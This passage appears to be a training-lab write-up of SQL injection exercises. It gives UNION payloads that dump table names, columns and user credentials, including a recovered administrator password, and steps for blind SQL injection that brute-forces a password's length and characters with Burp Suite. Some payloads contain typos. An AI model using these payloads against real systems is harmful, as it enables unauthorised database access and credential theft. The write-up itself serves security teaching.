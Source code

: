 Insert `'UNION SELECT TABLE_NAME, NULL FROM 
INFORMATION_SCHEMA.TABLES--` to determine table names that contain users' information.

Insert `'UNION SELECT COLUMN_NAME, NULL FROM 
INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users'--` to determine the columns that contain username and user password.

Last, insert `'UNION SELECT password FROM users WHERE username = 
'administrator'--` to retrieve the administrator's information.

## 10. SQL injection UNION attack, retrieving multiple values in a single column

Use Burp Suite to intercept and modify the request that sets the product category filter.

Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, only one of which contain text, using a payload like the following in the category parameter: `'+UNION+SELECT+NULL,'abc'--`

Use the following payload to retrieve the contents of the users table: `'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`

Verify that the application's response contains usernames and passwords.

And the returned answer is `administrator~lzycs1llv2jnhf80dwh1`

## 11. Blind SQL injection with conditional responses

Validate if the "users" table exists by inserting:

`and (SELECT 'x' FROM users LIMIT1)='x'--`

The result will return that users table doesn't exist.

Authenticating the administrator username does not exist in the users table by inserting:

`and (SELECT username FROM users WHERE username='administrator')='administrator'--`

And this will return that the administrator user exist.

Next, we will redict the password length of the administrator user by adding `length(password) > 1` and `length(password) > 50`. 

`and (SELECT username FROM users WHERE username='administrator' and length(password) > 1)='administrator'--`

`and (SELECT username FROM users WHERE username='administrator' and length(password) > 50)='administrator'--`

The length of the password is between [1;50] characters. To find more quickly, we use sniper. Wait a minute and we can find the right length.

After have the true length, we will predict the first character of the password by inserting:

`and (SELECT substring(password, 1, 1) from users WHERE username='adminitrator')='a'--`

If it is not the right, we use Brute Force method and can find the result.

To find other characters of the password, we switch to cluster bomb mode and set up two payloads, with payload 1 indicating the location of the password and payload 2 representing the character that is held at that position. Then proceed to launch the attack. 
